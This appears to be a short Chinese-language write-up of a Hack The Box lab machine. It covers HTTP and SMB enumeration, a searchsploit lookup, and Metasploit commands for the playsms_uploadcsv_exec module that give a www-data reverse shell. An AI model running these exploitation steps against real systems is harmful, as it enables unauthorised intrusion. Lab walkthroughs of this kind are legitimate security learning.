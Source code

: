 #### 1880目录发现

```
curl http://forlic.htb:1880/red -o red
curl http://forlic.htb:1880/vendor -o vendor

```
#### 139、445
```
smbclient -L //10.10.10.111
```
picture2, 查看共享的硬盘，服务版本为：Samba 4.3.11-Ubuntu

searchsploit samba 4.X，查看是否有rce的exp，没有。

smbmap -H 10.10.10.111

![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-23-05/3.PNG)

对目标硬盘进行访问，发现没有查看权限

## 获得webshell

https://www.rapid7.com/db/modules/exploit/multi/http/playsms_uploadcsv_exec

```
metasploit
search playsms
use multi/http/playsms_uploadcsv_exec
set RHOSTS 10.10.10.111 
set RPORT 9999
set TARGETURI /playsms
set LHOST tun0
```
![14](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/03-23-05/14.PNG)

获得www-data的shell

find / -name "user.txt" 2>/dev/null

## 总结

提权不会了。以后学一下缓冲区溢出的东西。

最近怎么老遇到CTF类型的靶机，下回得看清楚再做。。

